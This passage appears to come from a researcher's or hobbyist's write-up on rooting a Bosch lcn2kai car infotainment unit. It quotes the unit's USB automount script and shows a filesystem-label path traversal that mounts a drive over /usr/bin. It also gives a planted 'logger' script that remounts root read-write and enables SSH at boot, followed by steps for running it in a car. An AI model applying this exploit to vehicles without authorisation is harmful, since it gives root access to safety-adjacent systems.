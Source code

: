 The plan has a couple of steps. First is to create a flash drive with ext2 file system as we can be sure ext2 is supported and anything we put on it would keep +x bit unless additional options to `mount` are specified. Then make it not have a UUID which can be simply achieved by zeroing out the UUID in the ext2 header. Then, the FS label needs to be set to exploit the directory traversal to mount it over something that would lead to code execution. Looking up further down the `mount.sh` script would show the following:

```
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
    status=$?
    if [ ${status} -ne 0 ]; then
	logger -p user.err "mount.sh/automount" "$MOUNT -t ${ID_FS_TYPE} -o sync,ro $DEVNAME \"$MOUNTPT/$mountdir\" failed: ${result}"
	rm_dir "$MOUNTPT/$mountdir"
    else
	logger "mount.sh/automount" "mount [$MOUNTPT/$mountdir] with type ${ID_FS_TYPE} successful"
	mkdir -p ${MOUNTDB}
	echo -n "$MOUNTPT/$mountdir" > "${MOUNTDB}/$devname"
    fi
```

So, right after the file system is mounted (successfully or unsuccessfully), command `logger` is executed to log the message. Command `logger` is in `/usr/bin`:
```
# which logger
/usr/bin/logger
```

If we choose this as a target, our FS label would be `../../usr/bin/`. Finally, the prepared flash drive would need to contain a single file called `logger` with +x set on it. This file will be a simple shell script that would install enable SSH server just like we did manually in the previous section. The script can be something like this:

```
#make a file on the usb flash so we know if execution happened
touch /usr/bin/itworked
#remount root FS as RW 
mount -o remount,rw /
#enable sshd
echo "/etc/init.d/sshd start" >> /etc/init.d/fastboot/prj_boschinit.sh
#just for good measure
sync
sync 
```

Now, with usb flash drive in hand, we can walk to the car, turn the car on , wait for the infotainment system to fully boot up, insert the USB drive, count to 15 and turn off the car. If all went well, the flash drive should now contain an additional file named `itworked`. Turn off the car and wait for a minute or two for lcn2kai to full power down. Power it back up again, wait a minute , connect the ethernet addapter and try to connect to SSH. If all went well, you should be greeted with a root shell. Simple as that.

This repository should contain a script that would create a suitable file system to put on a flash drive that would make this straightforward. 
